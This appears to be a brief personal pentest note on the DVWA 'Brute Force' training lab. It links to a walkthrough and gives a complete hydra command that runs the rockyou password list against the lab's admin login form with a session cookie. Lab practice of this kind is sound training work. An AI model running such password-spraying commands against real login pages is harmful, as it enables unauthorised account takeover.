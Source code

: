 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Low / Medium
https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2001:%20Brute%20Force.md

```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=5r9mcj6pgqd910hrlr6l4is0tk"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
